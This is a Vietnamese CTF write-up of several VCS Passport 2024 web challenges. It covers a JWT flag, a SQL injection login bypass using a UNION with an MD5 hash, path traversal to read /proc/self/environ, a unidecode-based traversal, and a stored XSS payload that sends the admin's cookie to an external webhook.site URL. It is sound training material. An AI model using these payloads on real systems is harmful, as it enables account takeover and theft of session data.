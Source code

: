 ```yaml
---
title: "Writeup VCS Passpost 2024 [WEB]"
date: "2025-01-16"
excerpt: "Writeup VCS Passpost 2024 [WEB]"
featured: "/images/viettel.jpg"
---
```


<!-- Source các challenge: https://github.com/DuongHaoNika/VCS_Passport_2024_Web -->

## Bài Web01-Flag1
Khi bấm vào link, mình thấy giao diện như sau:

![image](https://github.com/user-attachments/assets/6ff658e5-6eac-4c76-855e-a0f068b128aa)

Sau đó đọc source code thấy route /freeflag:

![image](https://github.com/user-attachments/assets/b1c152e8-ca35-4e35-af80-ddd8404476d7)

![image](https://github.com/user-attachments/assets/21719077-75c5-4f36-aa35-b99374801a54)

Sau đó thấy server trả về session như hình

![image](https://github.com/user-attachments/assets/54be6e44-c4b9-4334-b265-d18b783cbabd)

=> Có thể là jwt. Vào trang jwt.io check:

![image](https://github.com/user-attachments/assets/ddbb660a-9456-4f87-b68e-e2ca367d1aa0)

=> Flag: `VCS{Web01-Flag1-680c37cc-6147-4d08-8c11
29c91b2a50bf}`

## Bài Web01-Flag2

Sau khi đọc source code, thấy chỉ lấy được Flag02 trong trường hợp login với admin

![image](https://github.com/user-attachments/assets/818e8fed-f673-4ef0-abf5-32345153c4e0)

Trước tiên thì tìm hiểu xem cơ chế mà server xử lý login như nào

![image](https://github.com/user-attachments/assets/bee9d8e7-cfa2-4f65-83a0-729392068f35)

![image](https://github.com/user-attachments/assets/81ca0b0b-bd16-4541-afec-accf6709a5fd)

Hàm `execute` đã trực tiếp nối input của người dùng (username) vào trực tiếp câu lệnh SQL => SQLInjection
Server kiểm tra trước xem có tồn tại username không, nếu có thì lấy password đã
được hash md5 (lưu trữ) trong database, và lấy password người dùng nhập, hash md5
password đó => Kiểm tra xem 2 hash trùng nhau không => Trùng thì đăng nhập thành
công.

Hoàn toàn có thể tận dụng lỗi SQL Injection trên, union select 1 tài khoản admin
và 1 mật khẩu đã được mã hóa md5

![image](https://github.com/user-attachments/assets/a2ae19fc-82ce-494e-b830-1d75aecc975f)

Đọc source => Sử dụng SQLite3
 
Sau đó vào Burp Suite, chỉnh giá trị username như sau:

```abc") UNION SELECT 'admin', '202cb962ac59075b964b07152d234b70'-```

Password cung cấp: `123`

Ở đây để phần đầu username là abc, để server không tìm thấy user có username là
abc thì user phía sau được lấy => Fake được user admin

![image](https://github.com/user-attachments/assets/8cb57872-1fec-486e-a0d1-83f3be96e85c)

![image](https://github.com/user-attachments/assets/ef41237b-cb00-4c8c-afc1-ff9bd11555ba)

## Bài Web01-Flag3

Đọc file `start.sh`:

![image](https://github.com/user-attachments/assets/46e53fbb-de7c-4790-8ba2-009809fe2cab)

Thấy `$FLAG3` chưa unset => vẫn nằm trên environ của tiến trình. 

Khi đọc src thì mình nhận ra field `title` không hề được validate:

![image](https://github.com/user-attachments/assets/8e545b71-1856-46f5-a82a-a402e49906b6)

![image](https://github.com/user-attachments/assets/203c4e08-1a96-4575-8939-eca0baa1feff)

Ý tưởng là mình sẽ inject vào field `title` để thực hiện Path Traversal, đọc file `/proc/self/environ` hoặc `/proc/1/environ`

Đầu tiên mình tạo request với CURL:

```
curl.exe -X POST http://localhost:9001/upload-meme -F "meme=@dockerfile" -F "title=title" -x 127.0.0.1:8080 -v
```

Qua Burp Suite

![image](https://github.com/user-attachments/assets/38bc81eb-70b0-439d-96e0-33f95c8f643d)

![image](https://github.com/user-attachments/assets/45623108-09a2-4dd9-a0ec-c348ae27e682)

Sửa `title` => `aaaaaaaa", "../../../../../../../proc/self/environ") --`

![image](https://github.com/user-attachments/assets/e564fe87-8482-48f5-a650-c484860ad4c4)

## Bài Web04

![image](https://github.com/user-attachments/assets/3227a8a9-8a2e-4d30-9dca-61518c18e4a3)

Đây là code python, trong index có hàm render_template() không bị SSTI (render_template_string thì bị) 

Mình để ý đến `/feedback`

![image](https://github.com/user-attachments/assets/222453fd-2a1f-44ab-8f07-87264dafe107)

`subject` được đưa vào nối chuỗi => Có thể bị Path Traversal

Sau khi xem và tìm hiểu thì hàm unidecode() có thể chuyển `\`, `\\` về `/` => bypass được '/'

Xem docker và check được user có thể ghi vào folder `errors`

![image](https://github.com/user-attachments/assets/7f9c036e-8a96-466f-a311-be5a62aeb26d)

Ý tưởng là mình sẽ Path Traversal qua field `subject` và thực hiện lệnh gì đó qua field `content`

![image](https://github.com/user-attachments/assets/c37ebc67-3173-4d4d-b015-b9456bc0aaf5)

Lấy được flag trong config (`app.config['FLAG'] = os.environ['FLAG']`)

![image](https://github.com/user-attachments/assets/32689981-3073-4d73-86ce-894a6fa7a19f)

## Bài Web06

![image](https://github.com/user-attachments/assets/7ed53f13-bee9-4c5f-a6cd-5dfa0a469572)

Khi đọc source mình để ý 2 hàm dưới

![image](https://github.com/user-attachments/assets/c438988e-213f-466a-8fad-8e184f7262ee)

Check tiếp hàm register

![image](https://github.com/user-attachments/assets/0b141994-a8e7-4603-9db5-b3e7b5da7581)

 Nhận thấy `email` và `bio` đã bị filter XSS. Còn username được lấy từ
 `session[“username”]`. Mà `username` trong hàm register lấy trực tiếp từ người dùng
 => `username` là **untrusted data**
 
 Hàm report profile => khả năng được gửi lên để admin xem
 => sẽ ra sao nếu report 1 nick có username với payload xss để cướp cookie admin
 khi xem
Đầu tiên tạo 1 user có username:
 
```
<script>fetch(`https://webhook.site/d15deb00-b0fb-43ad-a288480ba00c2c37?cookie=${document.cookie}`)</script>
```

![image](https://github.com/user-attachments/assets/0bc89596-9dae-487e-8117-3093ac458c2d)

 Sau đó tạo user khác, mục đích để lấy nick này report nick trên

![image](https://github.com/user-attachments/assets/2f4beadc-27a7-4a6e-9aa8-f6f3bd68e262)

Ví dụ: http://localhost:9006/profile/3ab3a9de-3571-48a4-bb01-257486e69f3a

![image](https://github.com/user-attachments/assets/1a474131-6ce2-4fb1-aa96-a42e1acc66ed)

Check webhook

![image](https://github.com/user-attachments/assets/f02f255e-d72a-4c14-846f-fab4d0193d3f)

Flag: `VCS{web06-2f29cec6-b8ea-4126-a2cd-a213bb332150}`
